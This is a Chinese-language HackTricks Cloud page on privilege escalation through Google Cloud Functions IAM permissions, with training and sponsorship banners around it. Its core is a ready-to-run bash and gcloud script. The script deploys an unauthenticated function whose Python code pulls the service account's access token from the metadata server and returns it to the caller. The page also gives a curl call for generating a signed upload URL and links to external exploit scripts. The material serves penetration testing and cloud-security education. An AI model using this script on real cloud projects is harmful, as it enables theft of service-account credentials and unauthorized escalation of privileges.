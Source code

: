 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudfunctions

有关 Cloud Functions 的更多信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以 **创建一个带有任意（恶意）代码的新 Cloud Function，并将其分配给一个服务账户**。然后，从元数据中泄露服务账户令牌以提升权限。\
可能需要一些权限来触发该函数。

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) 和 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) 找到，预构建的 .zip 文件可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) 找到。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以 **修改函数的代码，甚至修改附加的服务账户**，目的是提取令牌。

{% hint style="danger" %}
为了部署云函数，您还需要对默认计算服务账户或用于构建映像的服务账户具有 actAs 权限。
{% endhint %}

可能需要一些额外的权限，例如版本 1 cloudfunctions 的 `.call` 权限或触发该函数的角色 `role/run.invoker`。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
如果您收到错误 `Permission 'run.services.setIamPolicy' denied on resource...`，这意味着您正在使用 `--allow-unauthenticated` 参数，并且您没有足够的权限。
{% endhint %}

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) 找到。

### `cloudfunctions.functions.sourceCodeSet`

通过此权限，您可以获取一个 **签名的 URL，以便能够将文件上传到函数存储桶（但函数的代码不会被更改，您仍然需要更新它）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

从攻击者的角度来看，仅有这个权限的实用性不太确定，但知道这一点是好的。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

给自己任何之前的 **`.update`** 或 **`.create`** 权限以进行升级。

### `cloudfunctions.functions.update`

仅拥有 **`cloudfunctions`** 权限，而没有 **`iam.serviceAccounts.actAs`**，你 **将无法更新函数，因此这不是有效的权限提升。**

### 存储桶写入权限

你可能认为拥有 **存储桶的写入权限** 的攻击者将能够 **修改代码，覆盖** `function_code.zip`，然后使函数 **执行任意** 代码。

{% hint style="success" %}
**然而，这并不正确，仅仅覆盖存储桶中的代码不会修改正在执行的代码。**
{% endhint %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
